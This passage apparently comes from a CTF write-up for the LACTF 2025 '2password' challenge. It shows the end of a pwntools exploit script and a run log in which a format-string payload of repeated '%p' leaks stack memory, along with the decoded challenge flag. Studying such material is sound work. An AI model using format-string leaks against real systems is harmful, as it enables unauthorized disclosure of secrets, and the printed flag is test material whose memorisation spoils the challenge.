 ```py

        print(f'Index: {index} -> Value: {value} -> Encoded: {encoded_value} ' )

    interactive()

if __name__ == '__main__':
  exploit()
```

## Get flag

```sh
alter ^ Sol in ~/CTFs/2025/LACTF2025/2password
$ ./xpl.py REMOTE chall.lac.tf 31142
[*] '/usr/lib/x86_64-linux-gnu/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[+] Opening connection to chall.lac.tf on port 31142: Done
[DEBUG] Received 0x10 bytes:
    b'Enter username: '
[DEBUG] Sent 0x2b bytes:
    b'%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|\n'
[DEBUG] Sent 0x2 bytes:
    b'A\n'
[DEBUG] Received 0x22 bytes:
    b'Enter password1: Enter password2: '
[DEBUG] Received 0xa6 bytes:
    b'Incorrect password for user 0x7fffb4906390|(nil)|(nil)|0x571f409f84a8|(nil)|0x75687b667463616c|0x66635f327265746e|0x7d38367a783063|(nil)|(nil)|(nil)|0x41|(nil)|(nil)\n'
Index: 0 -> Value: b'0x7fffb4906390' -> Encoded: b'\x90c\x90\xb4\xff\x7f\x00\x00'
Index: 1 -> Value: b'(nil)' -> Encoded: b'(nil)'
Index: 2 -> Value: b'(nil)' -> Encoded: b'(nil)'
Index: 3 -> Value: b'0x571f409f84a8' -> Encoded: b'\xa8\x84\x9f@\x1fW\x00\x00'
Index: 4 -> Value: b'(nil)' -> Encoded: b'(nil)'
Index: 5 -> Value: b'0x75687b667463616c' -> Encoded: b'lactf{hu'
Index: 6 -> Value: b'0x66635f327265746e' -> Encoded: b'nter2_cf'
Index: 7 -> Value: b'0x7d38367a783063' -> Encoded: b'c0xz68}\x00'
Index: 8 -> Value: b'(nil)' -> Encoded: b'(nil)'
Index: 9 -> Value: b'(nil)' -> Encoded: b'(nil)'
Index: 10 -> Value: b'(nil)' -> Encoded: b'(nil)'
Index: 11 -> Value: b'0x41' -> Encoded: b'A\x00\x00\x00\x00\x00\x00\x00'
Index: 12 -> Value: b'(nil)' -> Encoded: b'(nil)'
Index: 13 -> Value: b'(nil)' -> Encoded: b'(nil)'
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
```
